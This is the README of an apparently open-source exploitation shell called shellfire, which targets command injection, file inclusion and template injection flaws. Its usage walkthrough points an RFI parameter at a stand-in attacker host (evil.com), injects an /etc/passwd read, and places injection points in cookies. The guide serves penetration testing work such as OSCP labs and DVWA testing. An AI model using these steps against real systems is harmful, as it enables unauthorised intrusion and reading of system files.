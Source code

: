 # shellfire

_shellfire_ is an exploitation shell which focuses on exploiting command injection vulnerabilities. This can be useful when exploiting LFI, RFI, SSTI, etc.

I originally started developing this script while working on my OSCP labs. As the capabilities grew, I thought maybe other people could find this as 
useful as I have, so I decided to open source my tool.

## Features  

- [X] Persistent named configuration for multiple targets (and sharing!)  
- [X] Plugin system  
- [X] PHP payload  
- [X] ASP payload  


## Installation  

There are a few ways to install this tool. Shellfire is available via PyPI, so you can use pip.

```
$ pip install shellfire
```

From Kali Linux, you can even use apt.

```
$ sudo apt install shellfire
```

If you'd like to build from source, you can use the standard Python setuptools to install this package.

```
$ git clone https://github.com/unix-ninja/shellfire.git
$ cd shellfire
$ python setup.py install
```

## A few useful hints

After installing, you can just call 'shellfire' from your terminal.

```
$ shellfire
[*] ShellFire v0.11
[*] Type 'help' to see available commands
(config)>
```

You can type `help` at any time inside config mode for a list of available commands, or append 
the command you want to know more information about to help for specific 
details. For example `help http`.

Let's explore how to attack a basic RFI vulnerability!

To start exploitation, you need to specify at least the URL parameter of your target. 
Something like the following should work:

```
(config)> url http://example.com/?path=http://evil.com/script.php
```

Running any command now would cause your RFI to get executed on the remote target.

Let's say you want to arbitrarily control the payloads going to the path paramter. This time, we will use `{}` to specify our injection point.

```
(config)> url http://example.com/?path={}
```

Before we can send our payloads, we must enter shell mode.

```
(config)> shell
```

Now, you can just type the payload you want to send and hit enter.

```
(shell)> /etc/passwd
```

You can always type "exit" to return from shell mode, back to config mode.

```
(shell)> exit
```

At this point, you should have enough to exploit easy vulnerabilities. Payloads you enter on the shell will be appropriately injected and sent over to your target.

More complex vulnerabilities may require specifying additional options. 
For example, let's assume you needed to send a cookie with a session ID in 
order to exploit your target. You may want to add something like this:

```
(config)> cookies { "session_id" : "123456789" }
```

We can specify injection points in cookies too.

```
(config)> cookies { "session_id" : "123456789", "vuln_param": "{}" }
```

Additional options, and information on how to use them, can be discovered by 
using the `help` option in config mode.

Thanks to Offensive-Security for inspiring the creation of this utility.

Please use this tool for good.

Happy hacking!


## Testing  

Testing is currently being done against the [dvwa docker image](https://hub.docker.com/r/vulnerables/web-dvwa/).
